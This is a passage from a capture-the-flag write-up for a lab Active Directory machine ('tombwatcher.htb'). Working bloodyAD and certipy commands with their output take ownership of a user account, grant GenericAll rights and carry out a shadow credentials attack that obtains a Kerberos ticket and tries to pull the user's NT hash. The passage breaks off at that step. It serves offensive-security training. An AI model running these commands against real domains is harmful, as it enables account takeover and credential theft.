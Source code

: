**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS get object --resolve-sd 'John'
```

**Output**
```bash
<SNIP>
nTSecurityDescriptor.ACL.9.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.9.Trustee: sam
nTSecurityDescriptor.ACL.9.Right: WRITE_OWNER
nTSecurityDescriptor.ACL.9.ObjectType: Self
</SNIP>
```

So let's set the owner to be `Alfred`, so we don't have to deal with the cleanup script that's cleaning up `Sam`'s password change.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS set owner john alfred
```

**Output**
```bash
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by alfred on john
```

Next, let's give ourselves `genericAll` permissions on `John`

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS add genericAll John Alfred
```

**Output**
```
[+] Alfred has now GenericAll on John
```

Let's do a `shadow` attack.

**Command**
```bash
certipy-ad shadow auto -account 'John' -u $USER -p $PASS -target $DOMAIN -dc-ip $IP
```

**Output**
```bash
[*] Targeting user 'john'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '28ea39b9-f8ac-0115-6eff-c93cc12be14f'
[*] Adding Key Credential with device ID '28ea39b9-f8ac-0115-6eff-c93cc12be14f' to the Key Credentials for 'john'
[*] Successfully added Key Credential with device ID '28ea39b9-f8ac-0115-6eff-c93cc12be14f' to the Key Credentials for 'john'
/usr/lib/python3/dist-packages/certipy/lib/certificate.py:519: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  return x509.load_der_x509_certificate(certificate)
[*] Authenticating as 'john' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'john@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'john.ccache'
[*] Wrote credential cache to 'john.ccache'
[*] Trying to retrieve NT hash for 'john'
```